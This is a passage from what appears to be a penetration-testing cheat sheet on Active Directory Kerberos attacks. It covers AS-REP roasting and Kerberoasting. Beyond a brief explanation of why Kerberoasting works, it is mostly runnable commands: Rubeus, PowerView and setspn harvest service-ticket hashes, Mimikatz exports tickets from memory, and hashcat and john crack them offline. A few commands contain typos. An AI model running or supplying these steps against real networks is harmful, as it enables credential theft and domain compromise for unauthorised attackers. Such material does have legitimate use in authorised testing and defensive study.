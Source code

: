 ```
# check ASREPRoast for all users in current domain
.\Rubeus.exe asreproast  /format:<AS_REP_responses_format [hashcat | john]> /outfile:<output_hashes_file>
```

- Ticket cracking
```
hashcat -m 18200 -a 0 <AS_REP_responses_file> <passwords_file>
john --wordlist=<passwords_file> <AS_REP_responses_file>
```

### Kerberoasting
- Concept:
1. Kerberos tickets are encrypted with the NTLM hash of the SPN for which they are requested.
2. SPN’s in Active Directory are often tied to user accounts to allow services such as Databases or Web Servers to access resources based upon permissions configured for Active Directory users.
3. The plaintext of the Kerberos ticket is known to the entity which requests it. As a result, it is possible to request Kerberos tickets for services that are configured with SPN’s tied to user accounts and perform a brute-force attack to figure out what password was used to encrypt the ticket.
4. In many instances, SPN’s will be tied to an over-privileged Active Directory accounts. Typically due to SPN’s being automatically configured by applications to have Administrative permissions, or system administrators deploying services where the required permissions are unknown so they just give the service Administrator permissions.
        
- If on the host:
```
# Enumerate Kerberoastable users
# 1) PowerView
> Import-Module .\PowerView.ps1
> Get-NetUser -SPN | select serviceprincipalname
# 2) setspn
> setspn.exe -T xor -Q */*
> setspn.exe -T <domain> -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
# 3) Rubeus
> .\Rubeus.exe kerberosat /stats
```
- Technique 1: Ask for TGS and dump it from memory
```
# Get TGS in memory from a single user
Add-Type -AssemblyName System.IdentityModel 
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "<spn>" #Example: MSSQLSvc/mgmt.domain.local 

# Get TGSs for ALL kerberoastable accounts (PCs included, not really smart)
setspn.exe -T DOMAIN_NAME.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }

# List kerberos tickets in memory
klist

# Extract them from memory
Invoke-Mimikatz -Command '"kerberos::list /export"' #Export tickets to current folder
```
- Technique 2: Automatic tools
```
# Powerview: Get Kerberoast hash of a user
Request-SPNTicket -SPN "<SPN>" -Format Hashcat #Using PowerView Ex: MSSQLSvc/mgmt.domain.local
# Powerview: Get all Kerberoast hashes
Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\kerberoast.csv -NoTypeInformation

# Rubeus
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
.\Rubeus.exe kerberoast /user:svc_mssql /outfile:hashes.kerberoast #Specific user
```
